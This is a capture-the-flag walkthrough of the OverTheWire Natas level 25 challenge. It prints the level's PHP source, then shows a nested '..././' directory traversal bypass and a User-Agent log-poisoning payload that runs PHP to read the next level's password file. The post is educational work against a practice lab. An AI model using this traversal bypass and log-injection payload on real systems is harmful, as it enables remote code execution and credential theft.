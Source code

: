 ```yaml
---
layout: post
title:  "Natas25: Bypassing Protections"
date:   2017-10-16 14:15:50 -0400
categories: master
---
```


The source code:

```
<?php
    // cheers and <3 to malvina
    // - morla

    function setLanguage(){
        /* language setup */
        if(array_key_exists("lang",$_REQUEST))
            if(safeinclude("language/" . $_REQUEST["lang"] ))
                return 1;
        safeinclude("language/en"); 
    }
    
    function safeinclude($filename){
        // check for directory traversal
        if(strstr($filename,"../")){
            logRequest("Directory traversal attempt! fixing request.");
            $filename=str_replace("../","",$filename);
        }
        // dont let ppl steal our passwords
        if(strstr($filename,"natas_webpass")){
            logRequest("Illegal file access detected! Aborting!");
            exit(-1);
        }
        // add more checks...

        if (file_exists($filename)) { 
            include($filename);
            return 1;
        }
        return 0;
    }
    
    function listFiles($path){
        $listoffiles=array();
        if ($handle = opendir($path))
            while (false !== ($file = readdir($handle)))
                if ($file != "." && $file != "..")
                    $listoffiles[]=$file;
        
        closedir($handle);
        return $listoffiles;
    } 
    
    function logRequest($message){
        $log="[". date("d.m.Y H::i:s",time()) ."]";
        $log=$log . " " . $_SERVER['HTTP_USER_AGENT'];
        $log=$log . " \"" . $message ."\"\n"; 
        $fd=fopen("/var/www/natas/natas25/logs/natas25_" . session_id() .".log","a");
        fwrite($fd,$log);
        fclose($fd);
    }
?>

<h1>natas25</h1>
<div id="content">
<div align="right">
<form>
<select name='lang' onchange='this.form.submit()'>
<option>language</option>
<?php foreach(listFiles("language/") as $f) echo "<option>$f</option>"; ?>
</select>
</form>
</div>

<?php  
    session_start();
    setLanguage();
    
    echo "<h2>$__GREETING</h2>";
    echo "<p align=\"justify\">$__MSG";
    echo "<div align=\"right\"><h6>$__FOOTER</h6><div>";
?>
<p>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html> 
```

This level is a two-parter that involves bypassing both directory traversal protection and file-access protection.


The php code starts off with:
```
    function setLanguage(){
        /* language setup */
        if(array_key_exists("lang",$_REQUEST))
            if(safeinclude("language/" . $_REQUEST["lang"] ))
                return 1;
        safeinclude("language/en"); 
    }
```
This code returns the contents of a file in the `language/` directory. If the url parameter `lang` is set to `en`, it returns the contents of the file `language/en`, which contains a quote. If lang=de, it outputs the file `language/de` which is the German version of the same quote (assumably).

The thing to take away from this is that the `lang` variable is retrieving the contents of a file. If we can bypass the two checks in the function `safeinclude()`, we can use this to retrieve the natas26 password file.

The first check is a directory traversal check. The code related is below:
```
// check for directory traversal
if(strstr($filename,"../")){
        logRequest("Directory traversal attempt! fixing request.");
        $filename=str_replace("../","",$filename);
}
```
We can bypass this by embedding a `../` inside of another `../`:
```
..././..././..././..././..././
```
The code will detect and remove the embedded `../`, and fails to check the results for further directory traversal attempts.

So the result after removal will be:
```
../../../
```
Which is exactly what we want.

Also included in the php code is a log function that will log the date, time, and user-agent string if a directory traversal attack is detected:
```
function logRequest($message){
        $log="[". date("d.m.Y H::i:s",time()) ."]";
        $log=$log . " " . $_SERVER['HTTP_USER_AGENT'];
        $log=$log . " \"" . $message ."\"\n"; 
        $fd=fopen("/var/www/natas/natas25/logs/natas25_" . session_id() .".log","a");
        fwrite($fd,$log);
        fclose($fd);
}
```

Retrieve the cookie using any cookie viewer such as Firefox's Cookie Manager+. In my case, my PHPSESSID cookie is `97aodk3p7v5hit1nn3ink0sas5`. Using the directory traversal bypass above will allow us to read our own logs. For example, the url to retrive my log would be:
```
http://natas25.natas.labs.overthewire.org/?lang=..././..././..././..././..././..././..././..././var/www/natas/natas25/logs/natas25_97aodk3p7v5hit1nn3ink0sas5.log
```

Which has listed the following:
```
[16.10.2017 16::39:27] Mozilla/5.0 (X11; Linux i686; rv:45.0) Gecko/20100101 Firefox/45.0 
"Directory traversal attempt! fixing request."
[16.10.2017 16::40:57] Mozilla/5.0 (X11; Linux i686; rv:45.0) Gecko/20100101 Firefox/45.0 
"Directory traversal attempt! fixing request." 
```

This code will input anything from the user-agent, which we can modify, to the log. Since we cannot directly access the natas26 password file, we can instead inject a simple php script into the user-agent that will print the contents of the file into the log.

Using a tool like the Firefox addon Tamper Data, we can input the following php script into the user-agent field:
```
<?php $test = file_get_contents("/etc/natas_webpass/natas26"); echo $test ?>
```

Which will store the password into the log file when we attempt another directory traversal attack:
```
[16.10.2017 16::39:27] Mozilla/5.0 (X11; Linux i686; rv:45.0) Gecko/20100101 Firefox/45.0 
"Directory traversal attempt! fixing request." 
[16.10.2017 16::40:57] Mozilla/5.0 (X11; Linux i686; rv:45.0) Gecko/20100101 Firefox/45.0 
"Directory traversal attempt! fixing request." 
[16.10.2017 16::47:13] [password]
"Directory traversal attempt! fixing request." 
[16.10.2017 16::47:20] Mozilla/5.0 (X11; Linux i686; rv:45.0) Gecko/20100101 Firefox/45.0 
"Directory traversal attempt! fixing request." 
```
